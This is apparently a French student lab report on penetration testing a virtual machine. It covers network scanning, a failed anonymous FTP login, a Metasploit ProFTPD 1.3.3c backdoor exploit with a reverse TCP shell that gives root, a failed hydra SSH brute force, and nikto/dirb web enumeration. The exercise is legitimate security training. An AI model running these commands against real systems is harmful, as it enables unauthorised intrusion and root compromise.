 # Rapport du TP2

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.6/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.6`

![1732270069043](image/rapport-tp3/1732270069043.png)

On voit que 3 ports sont ouverts : le 21, le 22 et le 80

## Port 21

Le port 21 utilise ftp. On peut donc essayer de se connecter en ftp (avec l'identifiant et le mdp 'ftp' ou 'anonyme') ce qui permettrait de se connecter si le serveur autorisait les connexion en mode anonyme.
`ftp 10.0.2.6`
Malheureusement, le serveur n'autorise as les connexion en mode anonyme et la connexion echoue.

![1732270713862](image/rapport-tp3/1732270713862.png)

Dans l'analyse des ports, on remarque que la version est "ProFTPD 1.3.3c"

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités.

`search PROFTPD 1.3.3c`

![1732274049690](image/rapport-tp3/1732274049690.png)

Une seule vulnérabilité est connue. On tape la commande `use 0` pour séléctionner le seul et unique exploit ("exploit/unix/ftp/proftpd_133c_backdoor").

![1732274737827](image/rapport-tp3/1732274737827.png)

En accédant aux `options`, on constate que rhost n'est pas configuré. rhosts permet de spécifier l'ip de la cible. On va donc lui attribué sa valeur "10.0.2.6".
`set rhost 10.0.2.6`

Rport est correctement configuré pour le port 21, on y touche pas.

On veut utiliser un reverse shell pour tenter de se connecter à la machine cible. On affiche donc les payloads disponibles.

![1732274488451](image/rapport-tp3/1732274488451.png)

Dans notre cas, on va faire une reverse TCP connexion donc on séléctionne le payload 4 `set payload 4`.

Dans les options, Lhost est requis mais n'est pas défini. Il faut donc lui assigner l'ip de la machine hôte.
`set lhost 10.0.2.4`

Avec la commande `run`, on peut maintenant exploiter la faille de sécurité et se connecter au reverse shell.

![1732275074257](image/rapport-tp3/1732275074257.png)

On constate qu'une connexion est bien ouverte (10.0.2.4:4444 -> 10.0.2.6:34682) et si je tape la commande `whoami`, je suis directement utilisateur root. De plus, Je peux ouvrir un shell et faire toutes les manipulations souhaitées sur la machine cible en tant que root.

![1732275364664](image/rapport-tp3/1732275364664.png)

## Port 22

Le port 22 est associé à ssh donc on va faire une attaque brut force en utilisant hydra.
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.6` (ip différentes du reste du tp car fais à un autre moment et elle avait changé entre temps)

Sans succès...

![1733940325504](image/rapport-tp3/1733940325504.png)

## Port 80

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.6`
On tombe sur une page web avec rien de spécial dessus.

![1732270433602](image/rapport-tp3/1732270433602.png)

En inspectant le code source de la page je ne vois rien non plus.

Je peux faire un scan nikto

`nikto -h 10.0.2.6`

![1732271735114](image/rapport-tp3/1732271735114.png)

Je peux également utliser dirb.

`dirb http://10.0.2.6`

On découvre dans les 2 cas un dossier "/secret"

On se rend donc à l'url `http://10.0.2.6/secret`

![1732271266395](image/rapport-tp3/1732271266395.png)

On tombe sur un "blog secret"

Lorsque l'on clique sur les lien, cela nous redirige vers une page inacessible et l'url change `vtcsec/...`

![1732271364228](image/rapport-tp3/1732271364228.png)

Après avoir réussi à accéder à la machine en tant que root en passant par le port 21, je me rend compte que "vtcsec" correspond bien au nom d'utilisateur de la machine cible.

![1732275561481](image/rapport-tp3/1732275561481.png)

